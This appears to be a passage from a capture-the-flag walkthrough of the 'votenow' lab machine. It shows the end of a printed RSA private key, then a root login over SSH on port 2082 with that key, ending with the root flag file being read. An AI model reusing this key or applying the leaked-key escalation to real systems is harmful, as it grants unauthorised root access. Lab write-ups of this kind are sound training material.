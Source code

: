 ```
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
-----END RSA PRIVATE KEY-----
[admin@votenow .ssh]$ 
```

```
[admin@votenow .ssh]$ ssh -i id_rsa root@localhost -p 2082
Last login: Wed Aug 14 17:39:34 2024 from 127.0.0.1
[root@votenow ~]# whoami
root
[root@votenow ~]# cat 
.bash_history        .config/             .ssh/
.bash_logout         .cshrc               .tcshrc
.bash_profile        .local/              .viminfo
.bashrc              .mysql_history       anaconda-ks.cfg
.cache/              .pki/                root-final-flag.txt
[root@votenow ~]# cat /root/
.bash_history        .config/             .ssh/
.bash_logout         .cshrc               .tcshrc
.bash_profile        .local/              .viminfo
.bashrc              .mysql_history       anaconda-ks.cfg
.cache/              .pki/                root-final-flag.txt
[root@votenow ~]# cat /root/root-final-flag.txt 
Congratulations on getting root.

 _._     _,-'""`-._
```